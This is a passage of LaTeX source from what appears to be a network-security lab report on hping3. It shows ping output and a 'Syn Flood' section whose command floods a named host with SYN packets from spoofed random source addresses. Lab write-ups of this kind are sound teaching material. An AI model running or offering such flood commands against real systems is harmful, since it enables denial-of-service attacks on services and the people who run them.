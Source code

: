 \documentclass[11pt]{article}
\begin{document}
\subsubsection*{Output}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.8\textwidth]{hping ping.jpg}
    \caption{To ping the target machine}
    \label{fig:4}
\end{figure}

\subsection{Command 5 - Syn Flood}

\subsubsection*{Syntax}
\begin{verbatim}
$ sudo hping3 --flood --rand-source -S target_ip
\end{verbatim}

\subsubsection*{Command}
\begin{verbatim}
$sudo hping3 --flood --rand-source -S krishnarajt.surge.sh
\end{verbatim}

\subsubsection*{Purpose}
To flood the target machine with SYN packets.

\subsubsection*{Output}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.8\textwidth]{hping syn flood.jpg}
    \caption{To flood the target machine with SYN packets}
    \label{fig:5}

\end{figure}
\end{document}
